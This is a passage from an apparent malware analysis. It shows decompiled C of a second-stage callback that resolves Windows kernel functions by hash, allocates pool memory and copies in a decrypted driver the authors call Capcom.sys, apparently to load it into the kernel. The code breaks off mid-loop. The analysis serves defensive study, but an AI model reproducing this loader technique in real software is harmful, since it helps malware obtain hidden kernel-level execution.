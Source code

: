 `callback_1_13FAA6355` holds a function pointer to `second_stage_callback_13FCF2A10`, which takes a
pointer to `MmGetSystemRoutineAddress` as the first argument and a pointer to the second decrypted executable
(we call it **Capcom.sys**):
```C
__int64 __fastcall second_stage_callback_13FCF2A10(__int64 (__fastcall *a1)(_QWORD), const void *a2, unsigned int a3, int a4) {  
  size_v2 = a3;
  retval = 0xC0000001;
  MmGetSystemRoutineAddress_13FD295A8 = a1;
  init_loaded_module_13FCF2768();
  v22 = 0i64;
  v23 = 0i64;
  v25 = 0i64;
  v21 = 48;
  v24 = 512;
  ExAllocatePoolWithTag = (__int64 (__fastcall *)(_QWORD, __int64, _QWORD))load_function_13F952964(0x490A231A);
  if ( ExAllocatePoolWithTag )
  {
    ExFreePoolWithTag = (void (__fastcall *)(char *, _QWORD))load_function_13F952964(0x34262863);
    if ( ExFreePoolWithTag )
    {
      IoCreateDriver = load_function_13F952964(0x1128974);
      if ( IoCreateDriver )
      {
        RtlImageNtHeader = load_function_13F952964(0xE2A9259B);
        if ( RtlImageNtHeader )
        {
          RtlImageDirectoryEntryToData = load_function_13F952964(0xCF424038);
          if ( RtlImageDirectoryEntryToData )
          {
            RtlQueryModuleInformation = load_function_13F952964(0xCE968D51);
            if ( RtlQueryModuleInformation )
            {
              PsCreateSystemThread = (__int64 (__fastcall *)(__int64 *, __int64, int *, _QWORD, _QWORD, char *, __int64))load_function_13F952964(0xB40D00D9);
              if ( PsCreateSystemThread )
              {
                ZwClose = (void (__fastcall *)(__int64))load_function_13F952964(0xA95BE347);
                if ( ZwClose )
                {
                  size = a3;
                  pool = (char *)ExAllocatePoolWithTag(0i64, a3, 'RALF');
                  if ( pool )
                  {
                    v13 = ExAllocatePoolWithTag(0i64, 0x44i64, 'RALF');
                    v14 = v13;
                    if ( v13 )
                    {
                      *(_QWORD *)v13 = ExAllocatePoolWithTag;
                      *(_DWORD *)(v13 + 0x38) = size_v2;
                      *(_QWORD *)(v13 + 8) = ExFreePoolWithTag;
                      *(_QWORD *)(v13 + 0x28) = IoCreateDriver;
                      *(_QWORD *)(v13 + 0x30) = pool;
                      *(_QWORD *)(v13 + 0x18) = RtlImageDirectoryEntryToData;
                      *(_QWORD *)(v13 + 0x20) = RtlQueryModuleInformation;
                      v16 = pool;
                      *(_QWORD *)(v14 + 0x10) = RtlImageNtHeader;
                      qmemcpy(pool, a2, 8 * (size >> 3));
                      v17 = &pool[size_v2 - 8];
                      if ( pool < v17 )
                      {
                        do
```